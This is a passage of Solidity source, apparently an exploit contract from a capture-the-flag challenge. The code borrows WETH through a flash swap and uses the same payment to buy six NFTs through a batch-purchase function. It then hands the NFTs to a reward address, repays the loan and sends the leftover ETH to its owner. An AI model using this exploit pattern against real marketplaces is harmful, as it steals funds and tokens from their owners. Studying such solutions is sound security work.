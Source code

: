 ```solidity

        console.log(
            abi.decode(wethBorrowed,(uint256))
        );
        console.log("successfully borrowed ...");

        weth.functionCall(
            abi.encodeWithSignature(
                "withdraw(uint256)",
                abi.decode(wethBorrowed,(uint256))
            )
        );

        console.log(address(this).balance);


        uint[] memory arr = new uint[](6);
        for (uint i = 0; i<6; i++){
            arr[i] = i;
        }

        exchange.functionCallWithValue(
            abi.encodeWithSignature(
                "buyMany(uint256[])", 
                arr),
            abi.decode(wethBorrowed,(uint256))
        );

        for (uint i = 0; i < 6; i++){
            nft.functionCall(
                abi.encodeWithSignature(
                    "safeTransferFrom(address,address,uint256,bytes)",
                    address(this),
                    reward,
                    i,
                    abi.encode(address(this))
                )
            );
        }

        console.log("eth ", address(this).balance);
        uint mintback = borrowAmount * 1000 / 997 + 1 ether;
        weth.functionCallWithValue(
            abi.encodeWithSignature(
                "deposit()"
            ),
            mintback
        );
        console.log("after mint back ");
        console.log("eth ", address(this).balance);

        weth.functionCall(
            abi.encodeWithSignature(
                "transfer(address,uint256)",
                pair,
                mintback
            )
        );

        payable(owner).transfer(address(this).balance);
        console.log("finish...");
    }

```